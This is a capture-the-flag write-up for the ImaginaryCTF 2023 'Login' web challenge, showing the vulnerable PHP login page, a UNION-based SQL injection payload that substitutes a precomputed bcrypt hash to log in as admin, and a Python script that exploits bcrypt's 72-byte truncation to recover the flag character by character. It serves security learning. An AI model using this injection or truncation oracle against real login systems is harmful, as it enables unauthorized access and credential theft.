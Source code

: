 # Web - Login (Imaginary CTF 2023)

## Problem

After accessing the site, we find in HTML comments that `/?source` is present, which gives us the source code for the PHP content:

```php
<?php

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

$flag = $_ENV['FLAG'] ?? 'jctf{test_flag}';
$magic = $_ENV['MAGIC'] ?? 'aabbccdd11223344';
$db = new SQLite3('/db.sqlite3');

$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';
$msg = '';

if (isset($_GET[$magic])) {
    $password .= $flag;
}

if ($username && $password) {
    $res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = '$username'", true);
    if (!$res) {
        $msg = "Invalid username or password";
    } else if (password_verify($password, $res['pwhash'])) {
        $u = htmlentities($res['username']);
        $msg = "Welcome $u! But there is no flag here :P";
        if ($res['username'] === 'admin') {
            $msg .= "<!-- magic: $magic -->";
        }
    } else {
        $msg = "Invalid username or password";
    }
}
?>
```
```html
<!-- Continued from above -->
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Login</title>
    <link type="text/css" rel="stylesheet" href="https://cdn.simplecss.org/simple.css" />
</head>

<body>
    <main>
        <h2>Login</h2>
        <form method="POST">
            <p>
                <label for="username">Username</label>
                <input type="text" name="username" placeholder="Username" />
            </p>
            <p>
                <label for="password">Password</label>
                <input type="password" name="password" placeholder="Password" />
            </p>
            <p>
                <button type="submit">Login</button>
            </p>
        </form>
        <p>
            <?= $msg ?>
        </p>
    </main>
</body>

</html>
<!-- /?source -->
```

## Solution

There are 2 steps to this problem. We first obtain to obtain the magic value (so that eventually the flag is appended to the password). After doing some research, we find that password_verify is checking against a `bcrypt` hash. 


We can therefore combined this with a SQL injection payload to force the password to be anything we want by pre-computing the hash in advance.
* Username must be `admin` for flag to be displayed
* SQLi UNION-based injection allows us to craft a username / password hash combination that we want to verify against

The payload and result is as follows:

```
abcdef' UNION SELECT 'admin', '$1$7SkSJrDl$Av6l1RrMZ2MjeL6OxD2Wr1' FROM users WHERE '1'='1
```

![Result](images/web_login1.png)

The magic value is `688a35c685a7a654abc80f8e123ad9f0`.

Now that we have the magic value, the flag is appended to the password when the magic value is passed as a GET parameter. After some [research](https://stackoverflow.com/questions/72328504/does-php-have-a-password-verify-bug), we further find that due to the use of `bcrypt` hashes, onl y the `first 72 characters` of the password are used in the hash computation. Hence, we can do:
* `b...b?` + `flag` (71 'b's +  1st character of flag '?') and compute hash of `b...b` + all possible test characters (e.g. 'i'). 
* If we manage to login, the character is correct. Otherwise, try the next character. Repeat with 1 less `'b'` to compute 2nd character of flag etc. until flag is found.

Solve script is below:
```python
import requests, bcrypt, string

salt = bcrypt.gensalt()
print('Chosen bcrypt salt:', salt)
flag, flag_length = b'', 0
while flag[-1] != ord(b'}'):
    for c in '?!}_' + string.ascii_lowercase + string.digits + string.ascii_uppercase: #range(0x30, 0x7f): # '0' to '~'
        test_string = b'b'*(71-len(flag))+flag+c.encode('utf-8')
        test_hash = bcrypt.hashpw(test_string, salt)
        print(test_string, test_hash, len(test_string))
        magic = '688a35c685a7a654abc80f8e123ad9f0'
        url = f"http://login.chal.imaginaryctf.org:80/?{magic}"
        data = {"username": f"abcdef' UNION SELECT 'admin', '{test_hash.decode('utf-8')}' FROM users WHERE '1'='1", 
                "password": (b'b'*(71-len(flag))).decode('utf-8')} # Everything after 'b' is the flag, up to 72nd char is hashed
        print(data)
        r = requests.post(url, data=data)
        if magic in r.text:
            flag += c.encode('utf-8')
            print('\nFLAG:', flag)
            break
# Let it run...
print('FINAL FLAG:', flag)

```

## Flag

ictf{why_are_bcrypt_truncating_my_passwords?!}